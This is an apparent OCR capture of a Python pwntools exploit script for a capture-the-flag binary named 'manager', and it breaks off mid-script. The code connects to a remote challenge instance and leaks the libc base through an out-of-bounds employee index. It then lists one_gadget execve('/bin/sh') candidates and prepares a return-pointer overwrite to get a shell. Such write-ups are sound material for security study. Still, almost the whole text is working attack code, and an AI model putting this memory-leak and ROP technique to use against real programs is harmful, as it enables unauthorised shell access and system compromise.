 ```python
instance = "142.93.38.188:31798"
host, port = instance.split(":")

if REMOTE:
    p = remote(host, int(port))
else:
    p = process("./manager", env=env)

# Attach GDB to this process and break at edit employee exit
# Will come in handy for ROP debugging later
if DEBUG:
    gdb.attach(p, '''
    info func
    b *(edit_employee + 99)
    continue
    ''')

# Now leak Libc base
p.recvuntil(":")  # Menu options for read/edit employee
p.sendline("1")   # Select employee print 
p.recvline()      # Read up to enter employee index
p.sendline("7")   # prints __libc_start_main+234 - libc base + 0x26d0a

# The address comes in two halves - rate and hours
p.recvuntil("ate:")
pb1 = p.recvuntil("\n")
p.recvuntil("eek:")
pb2 = p.recvuntil("\n")

# Combining the two is just a case of shifting the first left 32 bits
libc_base = (int(pb1.decode()) << 32) + int(pb2.decode())
libc_base = libc_base - 0x270b3
libc.address = libc_base
log.info(f"LIBC Base addr: {hex(libc_base)}")

# Now overwrite the edit_emploiyee RP with a ret2libc gadget

""" 
ONE GADGET OUTPUT on Libc:

0xe6c7e execve("/bin/sh", r15, r12)
# constraints:
# [r15] == NULL || r15 == NULL
# [r12] == NULL || r12 == NULL

OR

0xe6c81 execve("/bin/sh", r15, rdx)
constraints:
[r15] == NULL || r15 == NULL
[rdx] == NULL || rdx == NULL

0xe6c84 execve("/bin/sh", rsi, rdx)
constraints:
[rsi] == NULL || rsi == NULL
[rdx] == NULL || rdx == NULL
"""

# Set up all required addresses:
ret_addr = libc.address + 0xe6c84   # Gadget 3 will work 
log.info(f"{hex(ret_addr)=}")
# Break the ROP address into two 32 bit chunks
hours = ret_addr >> 32 # First part of addr - hours and rate are backward somehow in this phase
```